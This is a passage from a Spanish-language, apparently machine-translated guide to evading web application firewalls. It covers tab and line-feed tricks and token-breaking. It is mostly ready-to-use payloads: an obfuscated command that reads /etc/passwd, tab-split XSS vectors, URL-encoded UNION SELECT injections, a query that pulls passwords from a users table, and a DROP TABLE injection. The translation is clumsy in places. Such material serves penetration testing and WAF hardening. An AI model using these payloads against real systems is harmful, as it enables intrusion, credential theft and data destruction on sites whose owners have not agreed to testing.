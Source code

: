 > /bin/cat /etc/passwd

**Ofuscar carga útil:**

> $aaaaaa/bin$bbbbbb/cat$ccccccc $dddddd/etc$eeeeeee/passwd$fffffff

### **13. Técnica de tabulaciones y avances de línea**

Las pestañas a menudo ayudan a evadir los firewalls, especialmente los basados ​​en expresiones regulares. Las pestañas pueden ayudar a romper la expresión regular WAF cuando la expresión regular espera espacios en blanco y no pestañas.

**Solicitud básica:**

> <IMG SRC="javascript:confirm();">

**Técnica omitida:**

> <IMG SRC=" javascript:confirm();">

**Variante:**

> <IMG SRC=" jav ascri pt:confirm ();">

**Solicitud básica:**

> http://test.com/test?id=1 union select 1,2,3

**Técnica omitida** :

> http://test.com/test?id=1%09union%23%0A%0Dselect%2D%2D%0A%0D1,2,3

**Solicitud básica:**

> <iframe src=javascript:confirm()></iframe>

**Ofuscar carga útil:**

> <iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:c&Tab;o&Tab;n&Tab;f&Tab;i&Tab;r&Tab;m&Tab;%28&Tab;%29></iframe>

### 14. Técnica para romper fichas

Los ataques a tokens intentan romper la lógica de dividir una solicitud en tokens con disyuntores de tokens. Los token-breakers son símbolos que permiten afectar la correspondencia entre un elemento de una cadena y un determinado token. Nuestra solicitud debe seguir siendo válida mientras utilizamos rompedores de tokens.

Estudio de caso: token desconocido para el "tokenizador"

**Nuestra carga útil:**

> ?id=‘-sqlite_version() UNION SELECT passwords FROM users --

Estudio de caso: contexto desconocido para el analizador (observe el corchete sin contexto)

**Primera carga útil:**

> ?id=12);DROP TABLE users --
